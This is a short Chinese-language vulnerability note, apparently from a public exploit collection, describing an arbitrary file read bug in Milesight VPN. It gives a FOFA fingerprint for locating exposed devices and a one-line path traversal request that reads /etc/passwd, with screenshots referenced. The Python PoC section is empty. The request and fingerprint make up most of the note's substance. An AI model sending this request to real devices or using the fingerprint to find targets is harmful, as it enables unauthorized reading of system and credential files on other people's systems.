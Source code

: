 # Milesight VPN 任意文件读取

## 漏洞描述

MilesightVPN参数未过滤照成任意文件读取

## 漏洞影响

```
All
```

## FOFA

```
fid="gJ5RnYgT0ivplZX18LR7VQ=="
```

## 漏洞复现

登陆页面

![image-20230814204908346](img/image-20230814204908346.png)

验证POC

```
GET /../../../etc/passwd
```

![image-20230814205020304](img/image-20230814205020304.png)

## Python poc

```
暂无
```
